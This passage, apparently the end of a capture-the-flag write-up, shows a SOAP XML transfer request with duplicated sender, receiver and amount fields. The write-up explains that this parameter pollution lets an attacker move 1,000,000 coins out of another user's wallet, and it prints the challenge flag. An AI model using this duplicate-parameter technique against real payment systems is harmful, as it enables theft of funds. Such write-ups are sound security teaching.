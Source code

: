 ```
   	<internalTransfer>
   		<receiver_wallet_num>2517.1</receiver_wallet_num>
   		<amount>1000000</amount>
   		<sender_wallet_num>1337</sender_wallet_num>
   		<receiver_wallet_num>2517.1</receiver_wallet_num>
        <sender_wallet_num>1337</sender_wallet_num>
   		<amount>10</amount>
   		<token>YOUR TOKEN</token>
   	</internalTransfer>
   </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```
And because the application is interpreting the first values, it allows us to steal other people's money by replacing the ``sender_wallet_num`` with their BankID.

After abusing this to steal 1,000,000 coins, we can access the VIP page which contains the flag.
``You are pig-Hacker! How you stole money?!?!! Flag: ctfzone{dcaa1f2047501ac0f4ae6f448082e63e}``
